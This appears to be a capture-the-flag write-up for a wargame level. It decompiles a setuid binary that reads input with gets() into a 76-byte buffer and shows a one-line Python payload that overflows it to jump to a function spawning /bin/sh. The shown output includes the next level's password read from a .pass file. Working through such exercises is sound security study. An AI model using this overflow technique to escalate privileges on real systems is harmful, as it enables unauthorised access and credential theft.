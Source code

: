 ```sh
$> ls -l ~
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

Decompilation of `level1`:

```c
void	run(void)
{
  fwrite("Good... Wait what?\n", 1, 0x13, stdout);
  system("/bin/sh");
}

void	main(void)
{
  char	s[76];
  
  gets(s);
}
```

The use of `gets()` is a security risk.  
In this case, we can use this vulnerability to gain 'level2' access.
We retrieve the address of `run()` and we overflow the buffer with 76 chars + the address of the function.

```sh
$> (python -c "print('a' * 76 +'\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
$ whoami
level2
$ cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
$ ^C
Segmentation fault (core dumped)
```
